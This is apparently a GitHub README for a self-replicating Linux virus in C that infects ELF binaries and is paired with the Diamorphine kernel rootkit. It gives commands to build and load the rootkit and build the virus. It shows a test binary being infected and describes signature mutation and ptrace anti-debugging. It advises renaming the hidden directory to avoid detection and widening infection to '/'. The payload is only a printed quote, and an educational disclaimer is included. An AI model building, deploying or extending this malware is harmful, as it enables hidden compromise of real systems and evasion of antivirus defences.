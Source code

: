 # Nestor_Makhno
Linux virus in C that uses mutation and rootkit functionality

Nestor Makhno is a simple Linux virus that uses a rootkit(Diamorphine) to help hide its tracks and avoid av detection. The historical Nestor Makhno was famous for a lot, but one thing was being the first to begin using machine guns on covered wagons. He didn't create machine guns or wagons, but he knew these things would work well together. His ideas are still credited as the first proto-tank and first drive-by shooting. The Diamorphine rootkit existed long before the virus code added here. Its mostly used to make the process invisible in the pids.c file. As-is, it will also be used to create a hidden directory in /dev/shm/diamorphine_secret_def_not_a_virus. To avoid detection we suggest renaming this directory in the code of simmple.c

```
$ grep mkdir virus/simple.c
   mkdir("/dev/shm/diamorphine_secret_def_not_a_virus",0775);
```

Diamorphine will hide any folder on the system who's name begins with "diamorphine_secret". So be sure to include this with any locations that should be hidden. You may also want to build and run the virus portion of Nestor_Makhno from a folder like this to avoid dectection as well. 

To use this code, first go to the Diamorphine directory, build and install it:

```
$ cd ./Diamorphine
$ make
$ sudo insmod ./diamorphine.ko
```

If you expirence errors, you most likely do not have kernel headers installed. On Debian you may install them with the following:

```
$ sudo apt search linux-headers-$(uname -r)
```

Then go to the directory for the virus and build it:

```
$ cd ../virus
$ make
```

To prevent abuse, there is no real payload used with this code. Instead only an infamous quote by the historical Nestor Makhno will be injected into binaries. After completing you will find a binary called 'Nester_Makhno' and another called 'hello' to be used for testing. The code is set here to only infect files in the same directory:

```
$ grep '^   scan' virus/simple.c
   scan_dir(".", virus);
```

The above location may be editted to '/' or any desired location if you have a vm or sandbox. It should go without sayinig, but DO NOT RELEASE THIS CODE INTO THE WILD. THIS IS FOR TESTING AND EDUCATIONAL PURPOSES ONLY. I am not responsible for any damage this may cause and depending on your location, running this code may be illegal on devices you do not own. So you have been warned. 

Running the code you will see the quote from our payload: 

```
$ cd ./virus
$ ./Nestor_Makhno
Death to all those who stand in the way of freedom for the working people!
``` 
You can silence this by outputting to /dev/null. After this, you will find the hello binary will also excute this quote:

```
$ ./hello        
Death to all those who stand in the way of freedom for the working people!
Hello!
```

This is despite this string not being found in the code of hello.c:

```
$ cat ./hello.c 
#include <stdio.h> 

int main(){ 
    printf("Hello!\n");
}
```

Using virus strategies of the past, the modify.c file in the virus directory is used to randomly obscure this code's signature in memory. Basically making this a mutation virus as well. PTRACE has been used in trace.c to help prevent debugging. Combined with the rootkit functionality, this will make detection much more difficult, but not impossible.

If you wish to make changes to this code, the following line will need to be updated:

```
$ grep 'define PARASITE_LENGTH' simple.c
#define PARASITE_LENGTH 14800 /* PARASITE_LENGTH the size of compiling virus */
```

This will need to match the number of bytes in the compiled binary:

```
$ ls -l Nestor_Makhno
-rwxr-xr-x 1 user user 14800 Mar  9 02:19 Nestor_Makhno
```

It should be noted that while the virus has a GNU 3 License, the Diamorphine rootkit has its own separate license located in its folder.

Otherwise functionality of the virus might cease to work correctly.

Information on the historical Nestor Makhno may be found here:

https://en.wikipedia.org/wiki/Nestor_Makhno

Information on the Diamorphine rootkit may be found here:

https://github.com/bms8197/diamorphine 
